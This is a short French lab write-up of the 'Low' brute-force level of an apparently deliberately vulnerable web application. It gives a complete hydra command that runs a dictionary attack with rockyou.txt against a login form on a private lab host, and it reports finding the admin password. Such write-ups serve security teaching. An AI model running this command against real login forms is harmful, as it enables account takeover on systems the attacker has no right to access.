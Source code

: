 # Niveau "Low"

Le challenge nous présente l'équivalent d'une mire d'authentification :

![](../../../../.gitbook/assets/754b2c241667e45c33ef2f42f51e09f2.png)

Après un certain nombre de tentatives, il est évident que l’application n’implémente aucune protection contre les attaques de type brute force.

On utilise alors  `hydra` afin de retrouver le mot de passe de l'administrateur en utilisant une attaque par dictionnaire avec le fichier `rockyou.txt` \(fichier disponible sur Kali\) :

![](../../../../.gitbook/assets/a64aa6f881e7695546747388c1f9f874.png)

Etant pas très lisible sur l'impression écran, voici la commande utilisée :

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.203 -s 8080 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=jnh28vv1muneunmmbffhn25c45; security=low;"`

Brute force réussit, le mot de passe de l'administrateur est présent dans notre dictionnaire :

![](../../../../.gitbook/assets/5ff11daad3b3614252032592c5b7b93a.png)

## 

